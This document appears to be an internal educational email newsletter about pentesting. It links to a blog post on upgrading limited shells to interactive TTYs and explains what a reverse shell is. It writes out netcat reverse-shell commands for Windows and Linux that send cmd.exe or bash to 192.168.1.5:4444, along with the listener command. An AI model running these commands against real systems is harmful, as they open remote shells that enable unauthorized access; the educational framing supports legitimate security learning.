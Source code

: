 ```yaml
---
layout: email
title: Upgrading simple shells to fully interactive TTYs
---
```


A technical CATFACT for your Monday morning. This one is about converting limited shells to interactive ones: [**Upgrading simple shells to fully interactive TTYs**](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Those of you who have done some pentesting will be familiar with some of these tricks. I hadn’t seen the “stty” method-it’s really neat and I need to try it.

### Background
For those who aren’t familiar with the terminology, a “limited shell” is what you get if you send a shell prompt (like cmd.exe, or bash) over a TCP connection using something like netcat.
 
For example, to send a reverse shell to the IP address “192.168.1.5” and port “4444” using netcat on Windows or Linux:

**Windows:**  
`> nc -e cmd.exe 192.168.1.5 4444`

**Linux:**  
`$ nc -e /bin/bash 192.168.1.5 4444`

**On the receiver at 192.168.1.5 (“catching the shell”):**

`$ nc -lvp 4444`

Try it yourself - if you have access to a Linux system, you can send shells to “localhost” and catch them with netcat (you’ll need the ‘netcat-traditional’ variant for the `-e` flag). It’s a useful thing to practice with, as this is the basic level of access an unsophisticated attacker is looking for when they compromise a system. 

Note that if you’re going to test this on a Windows, netcat itself might get flagged as malicious by some antivirus products.